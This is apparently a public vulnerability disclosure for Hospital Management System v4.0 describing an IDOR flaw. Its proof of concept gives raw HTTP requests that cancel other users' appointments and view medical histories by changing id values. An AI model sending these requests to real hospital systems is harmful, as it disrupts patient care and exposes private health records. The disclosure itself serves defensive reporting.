 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to cancel the appointment that is booked by other user(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/appointment-history.php?id=6&cancel=update HTTP/1.1
...
```

GET /hospital/hms/view-medhistory.php?viewid=3 HTTP/1.1




POST /hospital/hms/book-appointment.php HTTP/1.1
...

Doctorspecialization=Orthopedics&doctor=4&fees=0&appdate=2023-12-30&apptime=9%3A00+PM&submit=





